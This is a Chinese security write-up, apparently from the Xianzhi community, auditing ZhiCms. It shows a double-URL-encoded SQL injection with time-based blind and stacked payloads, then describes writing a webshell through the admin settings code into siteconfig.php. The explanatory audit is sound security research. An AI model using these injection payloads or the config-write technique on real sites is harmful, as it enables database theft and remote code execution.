

# zhicms 从前台 SQL 注入到 RCE - 先知社区

zhicms 从前台 SQL 注入到 RCE

- - -

### 0x00 前言

**产品说明：**  
ZhiCms 是一款专业的值得买系统，程序支持国内值得买海淘值得买，程序内置淘点金、以及亿起发淘金链、多麦多金链等功能。支持国内商城海淘商城，程序 PHP+MYSQL 小巧方便，SEO 性强，前台模板制作简单  
**最新源码下载地址：**  
[https://www.zhicms.cc/d/zhicms.zip](https://www.zhicms.cc/d/zhicms.zip)  
**环境说明：**  
PHP7.1.9+MYSQL

### 0x01 软件目录结构

```plain
/app 控制器及模型目录
/data/cache 缓存
/data/config 数据库及其他配置
/public 前端静态文件目录
/upload 上传文件的存放目录
/ZhiCms 存放 zhicms 框架核心文件
```

### 0x02 开始审计

#### SQL 注入

zhicms 的控制器使用 ZhiCms/base/Controller.php#arg() 方法来获取传入的数据。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219211424-cd76cc5c-cf28-1.png)

可以看到在 arg() 方法做了一些替换的操作，并且使用 htmlspecialchars 转义$\_POST/$\_GET 的数据，ENT\_QUOTES 会对单引号跟双引号做转义，这里要么找整形注入要么找找能否绕过。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219211809-536c5520-cf29-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219212113-c12b57d2-cf29-1.png)

在 app/index/controller/cheapscontroller.php#index() 方法发现使用 urldecode 来包裹 arg()，那么这些位置可以使用 url 编码来绕过 arg() 方法的安全处理。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219213132-31fb6c12-cf2b-1.png)

发包调试。

```plain
GET /index.php?r=index/cheaps/index&key=test&XDEBUG_SESSION_START=16722 HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

下断点之后一直步入，直到 ZhiCms/base/db/MysqlPdoDriver.php#query() 方法，可以看到传入的 test 被拼接好了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219213754-15d1fc26-cf2c-1.png)

构造 payload 然后做两次 url 编码，测试触发 SQL 注入。  
payload：`test%' and (select * from (select if(ascii(substr(database(),1,1))>0,sleep(1),1))A)#`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219215000-c6b8b768-cf2d-1.gif)

在 ZhiCms/base/db/MysqlPdoDriver.php#\_bindParams() 方法，由于拼接好的 sql 语句直接传递给 prepare，这里也可以使用堆叠注入。  
payload：`test%';select sleep(1)#`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219215403-576bf32e-cf2e-1.png)

#### 文件写入 RCE

通过 SQL 注入我们可以获取到后台管理员的账户密码，也就是有后台管理员权限了。后台的功能点较多，我们可以从后台寻找 RCE 漏洞。

在 app/manage/controller/setcontroller.php#index() 找到可以写入文件 RCE。

```plain
public function index(){

        if(!IS_POST){
            $this->pagetext=array("基础设置","网站设置");
            include CONFIG_PATH . 'siteconfig.php';
            $this->ret=$Siteinfo;
            $this->display();
        }else{
         $sitename=$_POST['sitename'];
         $hosturl=$_POST['hosturl'];
         $logo=$_POST['logo'];
         $ewm=$_POST['ewm'];
         $pid=$_POST['pid'];
         $appkey=$_POST['appkey'];
         $secretKey=$_POST['secretKey'];
          $apiurl=$_POST['apiurl'];
          $code=$_POST['code'];
         $zhuan=$_POST['zhuan'];
        $download=$_POST['download'];

         $content="<?php

         \r\n\$Siteinfo=array(
              'sitename'=>'{$sitename}',
              'hosturl'=>'{$hosturl}',
              'logo'=>'{$logo}',
              'ewm'=>'{$ewm}',
              'pid'=>'{$pid}',
               'appkey'=>'{$appkey}',
                'secretKey'=>'{$secretKey}',
                'apiurl'=>'{$apiurl}',
                'code'=>'{$code}',
              'zhuan'=>'{$zhuan}',
              'download'=>'{$download}',

        );";
           $of = fopen(CONFIG_PATH . 'siteconfig.php', 'w');
              if ($of) {
                  fwrite($of, $content);
              }
              fclose($of);
              echo json_encode(array("info" => "设置成功", "status" => "y"));
        }

    }
```

构造请求写入一句话木马 getshell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219224045-dd3f3f32-cf34-1.png)

RCE。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219224237-201789ae-cf35-1.png)

shell 文件在 data/config/siteconfig.php。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240219224334-4269dcaa-cf35-1.png)

### 参考

PDO 场景下的 SQL 注入探究  
[https://xz.aliyun.com/t/3950?time\_\_1311=n4%2BxnD0DBDgGG%3DG8%2BGODlhje0%3Dd8eRhghbD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-4](https://xz.aliyun.com/t/3950?time__1311=n4%2BxnD0DBDgGG%3DG8%2BGODlhje0%3Dd8eRhghbD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-4)
